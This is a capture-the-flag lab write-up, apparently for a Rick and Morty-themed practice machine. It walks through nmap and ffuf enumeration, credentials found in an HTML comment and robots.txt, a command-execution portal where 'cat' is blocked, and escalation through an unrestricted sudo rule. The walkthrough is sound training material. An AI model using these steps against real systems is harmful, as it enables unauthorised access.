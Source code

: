 
**Target IP:** `10.10.84.24`
**Difficulty:** `Easy`
**Category:** Web, Privilege Escalation
______________________

## Enumeration

Initiating an nmap scan to gather the open ports

`sudo nmap -sS 10.10.84.24 -vv `

Output - 

~~~~
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60

~~~~~


Navigating to `http://10.10.84.24` displays a basic web page. Inspecting the HTML source reveals a comment:

~~~~
Note to self, remember username!
Username: R1ckRul3s

~~~~~~

This likely provides a valid username for authentication.

------------------------------------

### Web Enumeration using ffuf - 

`ffuf -u http://10.10.84.24/FUZZ -w /usr/share/wordlists/dirb/big.txt`

Output - 

~~~
.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 191ms]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 223ms]
assets                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 181ms]
robots.txt              [Status: 200, Size: 17, Words: 1, Lines: 2, Duration: 176ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 210ms]
:: Progress: [20469/20469] :: Job [1/1] :: 135 req/sec :: Duration: [0:01:55] :: Errors: 0 ::
~~~~~

Only promising file is the robots.txt. However, it has a meaningless string. (could be a password, given the context and Rick and Morty reference.).

`Wubbalubbadubdub` 

We use a login-focused wordlist to discover login portals. - 

`ffuf -u http://10.10.84.24/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/Logins.fuzz.txt `

Discovered `login.php` page.

~~~
login.php               [Status: 200, Size: 882, Words: 89, Lines: 26, Duration: 198ms]
~~~~

-------------------------

## Exploitation

Credentials - 

~~~~
Username: R1ckRul3s
Password: Wubbalubbadubdub
~~~~~~

The `portal.php` interface provides limited command execution. 

### First Flag - 

Running `ls` reveals: 

~~~
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
~~~~~

`cat` command is blocked.  `less Sup3rS3cretPickl3Ingred.txt ` works!

The first ingredient lies in it.

The `clue.txt` file contains a hint to find the next ingredient.

~~~~
Look around the file system for the other ingredient.
~~~~~~

### Second Flag - 

Looking around the file system, we can find a directory for user `rick` which contains the second file `second ingredients`.

Navigating there reveals the second ingredient.

### Third Flag - 

Check for `sudo` permissions:

	The command `sudo -l` gives the following output - 

~~~
Matching Defaults entries for www-data on ip-10-10-84-24:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-84-24:
    (ALL) NOPASSWD: ALL
~~~~

`(ALL) NOPASSWD: ALL` means that the `www-data` user can run any command as sudo without password.

`sudo ls /root`

~~~
3rd.txt
snap
~~~~~

And the last flag lies in `3rd.txt` file. 

**Fairly simple.**
